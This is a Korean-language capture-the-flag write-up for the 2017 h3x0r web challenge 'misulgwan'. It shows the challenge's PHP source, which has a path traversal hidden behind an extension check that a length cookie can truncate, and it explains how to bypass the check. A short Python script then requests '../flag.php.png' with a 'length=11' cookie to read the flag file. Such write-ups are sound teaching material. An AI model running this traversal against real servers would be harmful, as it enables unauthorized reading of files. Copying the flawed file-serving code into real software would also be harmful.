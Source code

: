 ======================================================
[2017_h3x0r] [WEB] misulgwan
======================================================

문제 내용
======================================================

server 1: http://pphp.dothome.co.kr/

server 2:http://jellycleaner.dothome.co.kr/

server 3: http://39.120.34.116:12345/misulgwan/


문제 풀이
======================================================

해당 사이트에 접속해서 소스보기를 해보면 소스코드 제공 페이지가 존재한다.

.. code-block:: html

    <!--<a href='./view.php?view-source'>view source</a> -->

PHP 소스코드는 아래와 같다.

.. code-block:: php

    welcome to misulgwan. 
    <?php
    error_reporting(0);
    include 'flag.php'; # flag is in the flag.php

    if(isset($_GET['image'], $_COOKIE['length'])){
        $ext = explode(".", strrev($_GET['image']));
        $ext = strrev($ext[0]);
        if(!preg_match("/png|jpg|bmp/i", $ext)) exit("no hack");

        $image = substr($_GET['image'], 0, $_COOKIE['length']);
        $view = fopen("./image/".$image, 'rb');

        header("Content-Type: image/png");
        fpassthru($view);
    }
    else {
        echo "welcome to misulgwan.";
    }

    if(isset($_GET['view-source'])){
        highlight_file(__FILE__);
    }
    ?>

문제를 볼 때 항상 입력값과 출력값을 염두해두자. 입력값은 image 파라미터와 length 쿠키 값이고, 출력하고자하는 값은 flag.php 내용이다.
출력 값인 flag.php 파일 내용을 가져오기 위해서는, 조건문이 2개 맞아야 한다.

1. 파일명 뒤에 확장자가 png, jpg, bmp여야 한다.
2. 해당 파읾명을 읽을 때 전체 입력한 값을 가져오는게 아니라, length 쿠키 값까지만 읽어서 가져오므로 flag.php까지만 읽을 수 있도록 length 쿠키 값을 맞춰보내야 한다.


다음과 같은 python 코드를 통해 플래그를 획득한다.

.. code-block:: python

    import requests

    url = "http://pphp.dothome.co.kr/view.php?image=../flag.php.png"
    header = {
        "Cookie":"length=11"
    }
    r = requests.get(url,headers=header)
    print r.content

